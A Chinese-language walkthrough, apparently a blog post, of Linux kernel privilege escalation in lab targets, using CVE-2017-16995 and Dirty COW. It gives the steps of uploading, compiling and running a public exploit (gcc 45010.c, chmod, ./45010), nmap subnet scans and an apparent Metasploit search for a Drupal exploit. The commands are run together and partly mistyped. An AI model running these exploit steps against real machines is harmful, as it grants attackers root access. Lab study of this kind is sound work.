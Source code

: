 

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawN1PvykDogosK40Au9sNubGKraRnUWxTRTZgwra0JtdaNgydVC24lFQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



Linux提权本地配合内核漏洞演示-Mozhe(本地权限)Ubuntu 16.04漏洞复现

CVE-2017-16995

提权过程:连接-获取可利用漏洞-下载或上传EXP-编译EXP-给权限执行-GG



- 
- 
- 
- 

```
gcc 45010.c -o 45010chmod +x 45010./45010id
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawHTJpM5ooQmI2HXic4z2ctib3anNzicPqnBHq27W1Zsib731jWItUIstR8g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



给目标主机上传检测脚本且执行

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawMujztNuDf2hsJzoBiaPoF9Ly5ASXJvNmiaOaDKRSejNAW1ccHRYUzbxQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawjIqdHOAXe6v3XevZdibL3IG2u72Bfcz1wY79jxibLvurEVK1iauJOwVBA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



选择CVE-2017-16995,在网上下载EXP,上传至目标主机,编译EXP

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawIe3r0iaUh8NHgohDF793p9KnASia1EpAtHZxvrLJgC2E3n9p5f72ujIg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



Linux提权脏牛内核漏洞演示-linux-exploit-suggester

内核提权整个过程:(Linux-exploit-suggest获取信息哦)



vulhub(https://www.vulnhub.com/)靶机:探针目标-CMS漏洞利用-脚本探针提权漏洞-利用内核提权内核漏洞提权过程:寻可用-下exp-上/exp-编译exp-执行(无权限用chmod)

namp 192.168.76.0/24

nmap -p1 -65535 192.168.76.141

search drupl

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawoaD95h7x3XzL52cxLg1WVWgicgnVfZ22pa3tJCcmXE0ggaNR5ibibds9g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaw2eBOaFBYW4NhRibian4TEeHzicICNddEpia7C7kIsqpHVxLwIlD6hic4ELA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)


